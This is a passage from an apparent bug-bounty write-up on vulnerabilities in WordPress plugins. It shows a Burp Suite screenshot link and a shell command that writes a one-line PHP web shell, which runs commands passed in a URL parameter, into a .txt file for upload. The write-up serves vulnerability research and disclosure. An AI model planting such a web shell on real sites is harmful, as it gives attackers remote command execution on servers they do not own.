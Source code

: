 > Note: This plugin by default doesn't display `.htaccess` files, thus it didn't get displayed in the above image.

Burp Suite HTTP history:

![](https://github.com/siunam321/CTF-Writeups/blob/main/Bug-Bounty/Wordfence/how-i-found-my-first-vulnerabilities-in-6-different-wordpress-plugins-part-2/images/Pasted%20image%2020250108175538.png)

Now we can upload a `.txt` file that contains a PHP code that we want to execute!

```shell
┌[siunam♥Mercury]-(~/Downloads)-[2025.01.08|17:57:39(HKT)]
└> echo -n ';;<?php system($_GET["cmd"]); ?>' > webshell.txt
```
